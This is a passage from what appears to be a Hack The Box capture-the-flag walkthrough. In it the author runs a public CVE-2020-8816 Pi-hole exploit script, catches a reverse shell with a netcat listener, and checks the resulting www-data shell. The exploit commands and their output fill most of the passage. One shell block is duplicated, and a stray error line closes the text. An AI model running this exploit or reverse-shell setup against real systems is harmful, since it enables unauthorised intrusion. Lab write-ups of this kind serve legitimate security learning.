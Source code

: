 running the POC with all of the proper inputs stil did not work. I went looking for another exploit and found [https://github.com/AndreyRainchik/CVE-2020-8816](https://github.com/AndreyRainchik/CVE-2020-8816)

```text
┌──(zweilos㉿kali)-[~/htb/unbalanced]
└─$ python3 ./CVE-2020-8816.py http://127.0.0.1:1337 admin 10.10.15.88 12345                        2 ⨯
Attempting to verify if Pi-hole version is vulnerable
Logging in...
Login succeeded
Grabbing CSRF token
Attempting to read $PATH
Pihole is vulnerable and served's $PATH allows PHP
Sending payload
```

the payload was away...

```text
┌──(zweilos㉿kali)-[~]
└─$ nc -lvnp 12345       
listening on [any] 12345 ...
id  
connect to [10.10.15.88] from (UNKNOWN) [10.10.10.200] 40152
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

and I got a shell...as `www-data`.

I was

### Getting a shell

```text
┌──(zweilos㉿kali)-[~]
└─$ nc -lvnp 12345       
listening on [any] 12345 ...
id  
connect to [10.10.15.88] from (UNKNOWN) [10.10.10.200] 40152
/bin/sh: 0: can't access tty; job control turned off
$ uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

and I got a shell...as `www-data`. I was in a pretty limited shell. I had no TTY, and some commands would not work \(I couldnt even upgrade my shell using python!\). I figured I must be in the pihole docker

```text
$ uname -a
Linux pihole.unbalanced.htb 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
```

uname -a pointed to this as well


[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>